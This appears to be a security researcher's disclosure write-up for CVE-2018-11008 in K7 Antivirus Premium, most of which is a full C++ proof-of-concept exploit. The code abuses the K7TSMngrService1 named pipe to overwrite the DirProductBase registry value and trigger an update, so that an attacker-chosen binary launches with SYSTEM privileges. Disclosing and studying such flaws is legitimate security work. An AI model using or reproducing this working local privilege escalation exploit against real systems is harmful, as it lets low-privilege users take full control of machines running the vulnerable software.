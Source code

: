 # CVE-2018-11008

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, the handler provies a way to set arbitary registry values using the RSET command. In the PoC, I use this to reset the  DirProductBase to a path of the user's choosing and then kick off an update. This will use the value in DirProductBase and look for K7TSMngr.exe and if found will launch it. From here is simple to LPE. Again this can be accessed from LOW and this makes it trivial to get a SYSTEM process launched. 

The PoC code concept is similar to CVE-2018-9332 where it simply modifies the DirProductBase and launches an update to illustrate the LPE.

# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability
//		Type:
//			Logical Flaw
//
//		Description:
//			Privileged registry modification via a SYSTEM process (effectively a broker)
void Vuln_LogicFlaw_RegSetValue(PSTR pszFolder)
{
	//
	// Craft the data for 'RSET' so we can modify an arbitary registry key. As before, we are just 
	// going to modify the DirProductBase and kick off an update as it demonstrates the point.
	// But from here YOU CAN WRITE TO MOST PLACES from a SYSTEM process which is bad
	//
	DWORD dwAction = 0x52534554;

	PVOID pData = AllocPrecise(0x1000);
	memcpy(pData, &dwAction, 4);
	PSTR pszReg = (PSTR)pData;
	pszReg += 4;
	PSTR pszTarget = "HKLM\\SOFTWARE\\K7 Computing\\K7TotalSecurity\\DirProductBase";
	strcat(pszReg, pszTarget);
	pszReg += strlen(pszTarget) + 1;

	PSTR pszValue = pszFolder;
	strcat(pszReg, pszValue);
	pszReg += strlen(pszValue) + 1;

	PDWORD pdwValue = (PDWORD)pszReg;
	*pdwValue = 1;
	pszReg += 4;

    //
    // This will set the appropiate registry key via the service
	//
    if (!CallPipeFunction(0x1003E, (PBYTE)pData, 0x1000, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return;
	}

	//
	// This kicks off an update process and will run any binary called K7TSHlpr.exe from the folder 
	// in DirProductBase. Therefore we have just created a process with SYSTEM integrity in Session
	// 0. Fab :)
	//
	InitPipe();
	BYTE data[0x10] = { 0 };
	if (!CallPipeFunction(0x10010, data, sizeof(data), NULL, 0))
	{
		printf("Error: Kicking off an update failed\r\n");
	}
}

int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("Usage: <Folder>\r\n");
		printf("\tFolder: If K7TSHlr.exe is in this folder, then it will be launched as SYSTEM");
		return -1;
	}

	Vuln_LogicFlaw_RegSetValue(argv[1]);
}

```